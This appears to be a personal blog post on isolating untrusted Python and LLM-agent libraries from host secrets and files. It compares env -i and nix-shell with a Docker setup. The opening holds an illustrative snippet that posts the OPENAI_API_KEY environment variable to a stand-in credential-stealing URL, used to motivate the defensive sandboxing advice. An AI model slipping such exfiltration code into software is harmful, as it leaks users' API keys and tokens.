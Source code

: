 ```yaml
---
title: "Sandboxed Python Environment"
date: 2024-01-20T22:53:12-05:00
draft: false
toc: true
tags:
- language_models
- python
- security
- nix
- docker
---
```


I've tried out many new AI/LLM libraries in the past year.
Many of these are written in Python.
While trying out new and exciting software is a lot of fun, it's also important to be mindful about what code you allow to run on your system.
Even if code is open source, it's still *possible* that the cool open source library you installed includes code like

```python
import httpx
import os

httpx.post(
    'https://someoneswebsite.com/stealcreds',
    data={'key': os.environ.get("OPENAI_API_KEY")},
)
```

I strongly recommend vetting any libraries you use, using separate API keys per app and setting a spend cap on OpenAI in case your key is compromised.
However, your `OPENAI_API_KEY` isn't all you need to worry about.
Python code (including dependencies) has access to your entire `os.environ`.
It's somewhat common to set environment variables for the shell to be available system wide.
Zsh has a dedicated file that gets sourced when the shell starts up (`.zshenv`).
So if you hypothetically had `GITHUB_API_TOKEN` set in your environment, some open source library could send that secret to its own server and gain access to your stuff.

Thankfully, over time, open source libraries *usually* are scrutinized to the degree that this type of credential stealing becomes more difficult to execute or scale.
However, with the advent of agent-like, language-model-based systems, certain libraries are now asking us to allow them to execute system commands on our behalf.
While many of these require user approval, some have automatic approval capabilities, allowing a language model to roam freely among your system.
If you're reading this article, you probably already know this isn't an awesome idea.

## Some trial and error

I tried several approaches to solve this problem before I identified one that seemed to address most of my concerns.
My goal was to find a safe setup that expected code to use a language model to execute code, peek at my environment or poke around the file system.

### Trying out env

My initial inclination was to try and clear out my environment variables to protect against a program trying to steal my secrets.
The `env -i` command can execute a shell command with an empty environment.
Unfortunately, this approach removes too much of what is needed to run Python, so it wasn't viable.

```sh
❯ env -i python run.py
env: python: No such file or directory
```

### Trying out nix

[Nix](https://nixos.org/) seemed like another possible candidate that could manage an independent version of Python and my dependencies
After a bit of searching, I found a way to create a shell with a nix-specified environment using `nix-shell`.
Loosely following instructions from [this article](https://churchman.nl/2019/01/22/using-nix-to-create-python-virtual-environments/), I created a `shell.nix` file with the following contents

```nix
{ nixpkgs ? import <nixpkgs> {}, pythonVersion ? "python3" }:

nixpkgs.mkShell {
  buildInputs = [
    (nixpkgs.${pythonVersion})
    (nixpkgs.python3Packages.numpy)
    (nixpkgs.python3Packages.openai)
  ];

  shellHook = ''
    echo "Welcome to your Python development environment."
  '';
}
```

I ran `nix-shell` from the same directory, which put me in a shell (within my shell) with a specific version of Python and my specified dependencies installed.

```sh
❯ nix-shell
Welcome to your Python development environment.

❯ which python
/nix/store/<...>-python3-3.11.7/bin/python

❯ python
Python 3.11.7 ...
Type "help", "copyright", "credits" or "license" for more information.
>>> import openai
>>> import numpy
>>>
```
Nix worked as advertised, but I realized this approach didn't provide isolation from my environment variables or my system.
Any Python code I ran from the within the nix shell could still read my environment variables or mess with my host file system if it was malicious.

Nix also has the ability to run a `pure` shell, which per the [docs](https://nixos.org/manual/nix/unstable/command-ref/nix-shell.html#options), will clear most of the environment variables.
I tried this out but it quickly became apparent it was too stripped down for what I was looking for.
It also still had host file system access.

```sh
❯ nix-shell --pure
Welcome to your Python development environment.

[nix-shell:~/dev/try/try_wrapper]$ which python
bash: which: command not found
```

## Using Docker

Given the two main constraints

- host environment variable protection
- host file system protection

I moved on to try and find an approach using Docker, which I knew to provide better file system isolation and an independent set of environment variables.
This approach has become the one I use when I want to try out a new library to get a sense of its capabilities while being mindful of my system's privacy.

Here is how it works.
First, I created a new project with the following files and contents

```text
.
├── .env
├── Dockerfile
├── Makefile
├── requirements.txt
└── run.py
```

`.env`
```env
OPENAI_API_KEY=<your key>
# any other variables
```

`Dockerfile`
```Dockerfile
FROM python:slim
WORKDIR /usr/src/app
COPY *.py /usr/src/app
COPY requirements.txt ./
RUN pip install --no-cache-dir -r requirements.txt
CMD ["python", "./run.py"]
```

`run.py`
```python
import os
from openai import OpenAI
from dotenv import load_dotenv

load_dotenv()

OPENAI_API_KEY = os.environ.get("OPENAI_API_KEY")

client = OpenAI(api_key=OPENAI_API_KEY)

stream = client.chat.completions.create(...)
# the rest of the code
```

`requirements.txt`
```text
openai
python-dotenv
# any other libraries you want to install
```

`Makefile`
```make
.PHONY: run
run:
	docker build -t run_script . && docker run -it --env-file .env run_script
```

With this setup, I added my environment variables to `.env`, my dependencies to `requirements.txt`, my code to `run.py` and to run it all, `make run`, which builds and runs the container defined in `Dockerfile`.

It's not the easiest or the cleanest approach for ongoing development of a project, but it provides a reasonable way to sandbox and isolate new code you want to try out that your don't necessarily trust.
I did several hours of research to find an approach I was satisfied with but I suspect there are other good options out there.
I would love to hear from you if you have an approach you like.
